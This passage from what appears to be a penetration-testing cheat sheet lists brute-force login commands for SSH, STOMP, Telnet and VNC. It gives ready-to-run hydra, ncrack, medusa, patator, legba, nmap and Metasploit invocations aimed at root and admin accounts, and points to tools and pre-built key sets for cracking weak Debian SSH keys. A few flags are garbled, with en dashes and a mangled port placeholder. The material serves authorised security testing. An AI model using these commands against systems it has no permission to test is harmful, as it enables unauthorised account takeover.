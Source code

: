```bash
hydra -l root -P passwords.txt [-t 32] <IP> ssh
ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh
patator ssh_login host=<ip> port=22 user=root 0=/path/passwords.txt password=FILE0 -x ignore:mesg='Authentication failed'
legba ssh --username admin --password wordlists/passwords.txt --target localhost:22
# Try keys from a folder
legba ssh --username admin --password '@/some/path/*' --ssh-auth-mode key --target localhost:22
```

#### Weak SSH keys / Debian predictable PRNG

Some systems have known flaws in the random seed used to generate cryptographic material. This can result in a dramatically reduced keyspace which can be bruteforced with tools such as [snowdroppe/ssh-keybrute](https://github.com/snowdroppe/ssh-keybrute). Pre-generated sets of weak keys are also available such as [g0tmi1k/debian-ssh](https://github.com/g0tmi1k/debian-ssh).

### STOMP (ActiveMQ, RabbitMQ, HornetQ and OpenMQ)

The STOMP text protocol is a widely used messaging protocol that **allows seamless communication and interaction with popular message queueing services** such as RabbitMQ, ActiveMQ, HornetQ, and OpenMQ. It provides a standardized and efficient approach to exchange messages and perform various messaging operations.

```bash
legba stomp --target localhost:61613 --username admin --password data/passwords.txt
```

### Telnet

```bash
hydra -l root -P passwords.txt [-t 32] <IP> telnet
ncrack -p 23 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M telnet

legba telnet \
    --username admin \
    --password wordlists/passwords.txt \
    --target localhost:23 \
    --telnet-user-prompt "login: " \
    --telnet-pass-prompt "Password: " \
    --telnet-prompt ":~$ " \
    --single-match # this option will stop the program when the first valid pair of credentials will be found, can be used with any plugin
```

### VNC

```bash
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vnc
medusa -h <IP> –u root -P /root/Desktop/pass.txt –M vnc
ncrack -V --user root -P /root/Desktop/pass.txt <IP>:>POR>T
patator vnc_login host=<IP> password=FILE0 0=/root/Desktop/pass.txt –t 1 –x retry:fgep!='Authentication failure' --max-retries 0 –x quit:code=0
use auxiliary/scanner/vnc/vnc_login
nmap -p 5900,5901 --script vnc-brute --script-args brute.credfile=wordlist.txt <IP>
legba vnc --target localhost:5901 --password data/passwords.txt

#Metasploit
use auxiliary/scanner/vnc/vnc_login
set RHOSTS <ip>
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/passwords.lst
```
